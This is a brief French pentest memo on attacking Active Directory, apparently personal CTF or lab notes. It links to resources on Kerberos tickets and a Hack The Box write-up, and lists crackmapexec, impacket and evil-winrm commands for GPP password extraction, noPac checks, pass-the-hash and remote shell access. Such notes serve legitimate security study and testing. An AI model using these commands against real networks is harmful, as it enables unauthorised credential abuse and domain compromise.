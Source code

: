![](./images/s4u.png)

### Silver/Golden Ticket

- https://beta.hackndo.com/kerberos-silver-golden-tickets/#pac
- https://learn.microsoft.com/en-us/answers/questions/87978/reset-krbtgt-password
- https://github.com/fortra/impacket/issues/1457

### Memo

[Box Active (HTB)](https://0xdf.gitlab.io/2018/12/08/htb-active.html)

Synchroniser l'horloge:

`sudo ntpdate <ip>`

**Crackmapexec** :

- check GPPPassword ([share spidering](https://www.infosecmatter.com/crackmapexec-module-library/?cmem=smb-spider_plus): spider_plus): `cme smb <Domain> -u <user> -p <pass> -M gpp_password`
- check SamAccountName: `crackmapexec smb <ip> -M nopac` & `crackmapexec ldap -d <Domain> -u <user> -p <pass> -M Maq` (max machines à créer)
- Pass The Hash: `crackmapexec <ip> -u Administrator -H <lmhash:nthash> -x 'whoami'`


**WinRm shell**

`Domain.local/Administrator@127.0.0.1`

`psexec.py <Domain>/<user>:<pass>@<DC.local>`               # noisy, prefer wmiexec
`wmiexec.py <Domain>/<user>@<DC.local> -hashes ':<nthash>'`

```bash
#win-rm protocol
evil-winrm -i <ip> -u <account> -p <password>

#pass the hash
evil-winrm -i <ip> -u <account> -H <hash>
```

